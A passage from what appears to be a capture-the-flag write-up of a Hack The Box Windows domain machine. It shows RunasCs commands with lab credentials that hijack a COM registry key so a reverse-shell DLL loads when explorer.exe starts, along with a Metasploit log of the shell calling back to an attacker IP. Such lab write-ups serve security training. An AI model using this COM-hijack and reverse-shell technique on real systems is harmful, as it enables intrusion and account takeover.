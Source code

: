 
Something I learned as well, different payloads are built differently (to no one's surprise). But some such differences that are meaningful include the way the shell is spawned. In the case of shell/reverse_tcp (as opposed to shell/meterpreter/reverse_tcp), a child is forked and then orphaned. So when the shell is spawned, it won't die as soon as explorer.exe is killed as is the case in this exercise.

It's worth noting here, that the access to the registry is only for IT. And looking back at Bloodhound for our next target to know what we're trying to get to with our new credentials, we'll find that mm.turner is whom we're hoping we can get. Based on the fact that their login count is in the many thousands as I enumerated LDAP, it's safe to say there's likely a login by mm.turner happening frequently, so hopefully injecting a DLL into a process that will hopefully spawn with every login can be a viable way to take over the account.

![alt text](../../../assets/images/ctf/events/season8-htb-25/2025-07-05-week7-rustykey.md/2025-07-05-week7-rustykey/images/image-2.png)

Using ee.reed and RunasCs, we can pass our key edits with our reverse shell binary to be triggered when explorer.exe is opened.

```sh
./RunasCs.exe ee.reed 'Password1234!' 'reg add "HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\Windows\Temp\7zip.dll" /f'
./RunasCs.exe ee.reed 'Password1234!' 'reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\Windows\Temp\7zip.dll" /f'
```

And after waiting a minute, we'll eventually get a shell

> Note: I found that once I used a port to reverse shell back, that port was burned. I needed to generate a new payload to phone back to a new port each time.

```sh
[*] Started reverse TCP handler on 10.10.14.81:9999 
[*] Sending stage (336 bytes) to 10.129.26.114
[*] Command shell session 1 opened (10.10.14.81:9999 -> 10.129.26.114:54854) at 2025-07-06 23:45:36 -0700


Shell Banner:
Microsoft Windows [Version 10.0.17763.7434]
-----
          

C:\Windows>whoami
whoami
rustykey\mm.turner
```
